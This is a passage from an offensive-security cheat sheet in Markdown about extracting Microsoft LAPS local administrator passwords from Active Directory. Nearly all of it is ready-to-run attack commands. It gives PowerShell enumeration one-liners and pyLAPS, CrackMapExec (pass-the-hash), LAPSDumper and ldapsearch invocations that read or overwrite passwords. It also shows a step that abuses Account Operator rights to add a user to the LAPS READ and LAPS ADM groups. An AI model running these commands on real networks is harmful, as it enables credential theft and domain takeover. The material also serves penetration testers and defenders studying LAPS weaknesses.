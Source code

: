        $ Find-LAPSDelegatedGroups
       $ Find-AdmPwdExtendedRights
       ```

   * Powershell AdmPwd.PS
       ```powershell
       foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}
       ```

 - From Linux:

   * [pyLAPS](https://github.com/p0dalirius/pyLAPS) to **read** and **write** LAPS passwords:
       ```bash
       # Read the password of all computers
       ./pyLAPS.py --action get -u 'Administrator' -d 'LAB.local' -p 'Admin123!' --dc-ip 192.168.2.1
       # Write a random password to a specific computer
       ./pyLAPS.py --action set --computer 'PC01$' -u 'Administrator' -d 'LAB.local' -p 'Admin123!' --dc-ip 192.168.2.1
       ```
     
   * [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec):
       ```bash
       crackmapexec smb 10.10.10.10 -u 'user' -H '8846f7eaee8fb117ad06bdd830b7586c' -M laps
       ```

   * [LAPSDumper](https://github.com/n00py/LAPSDumper) 
       ```bash
       python laps.py -u 'user' -p 'password' -d 'domain.local'
       python laps.py -u 'user' -p 'e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c' -d 'domain.local' -l 'dc01.domain.local'
       ```
   
   * ldapsearch
      ```bash
      ldapsearch -x -h  -D "@" -w  -b "dc=<>,dc=<>,dc=<>" "(&(objectCategory=computer)(ms-MCS-AdmPwd=*))" ms-MCS-AdmPwd`
      ```

### Grant LAPS Access
The members of the group **"Account Operator"** can add and modify all the non admin users and groups. Since **LAPS ADM** and **LAPS READ** are considered as non admin groups, it's possible to add an user to them, and read the LAPS admin password

```ps1
Add-DomainGroupMember -Identity 'LAPS ADM' -Members 'user1' -Credential $cred -Domain "domain.local"
Add-DomainGroupMember -Identity 'LAPS READ' -Members 'user1' -Credential $cred -Domain "domain.local"
```

